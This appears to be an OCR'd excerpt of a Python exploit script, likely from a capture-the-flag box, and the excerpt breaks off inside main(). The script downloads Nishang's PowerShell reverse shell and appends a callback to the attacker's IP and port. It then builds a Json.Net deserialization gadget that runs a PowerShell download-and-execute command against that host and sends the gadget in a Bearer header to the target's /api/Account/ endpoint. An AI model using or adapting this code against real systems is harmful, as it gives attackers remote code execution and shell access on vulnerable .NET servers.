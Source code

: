 ```py

# Mount the payload
def mountPayload(lhost,lport):
    if os.path.isfile('Invoke-PowerShellTcp.ps1'):
        os.system("rm Invoke-PowerShellTcp.ps1")
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport))
    file.close()
    print("[+] Call added! [+]")


# Function to create the ysoserial payload
def createPayload(lhost):
''' 
Command used in windowns box with ysoserial with some modifications to get the ps1 reverse shell
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.20"
'''
    pay ="{\n"
    pay +="    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',\n"
    pay +="    'MethodName':'Start',\n"
    pay +="    'MethodParameters':{\n"
    pay +="        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',\n"
    pay +="        '$values':['cmd','/c powershell.exe IEX(New-Object Net.WebClient).DownloadString(\\'http://%s/Invoke-PowerShellTcp.ps1\\')']\n" %lhost
    pay +="    },\n"
    pay +="    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}\n"
    pay +="}"
    global payload
    payload = b64e(pay)

# Function just to encode base64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Function to send the payload to the server
def sendPayload(rhost,payload):
    url = "http://%s:80/api/Account/" %rhost
    headers = {"Accept": "application/json, text/plain, */*", "Bearer": "%s" %payload}
    r.get(url, headers=headers, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    lhost = args.ipaddress
    lport = args.port
    rhost = args.target

    '''Here we call the functions'''
    # Set up the web python server
```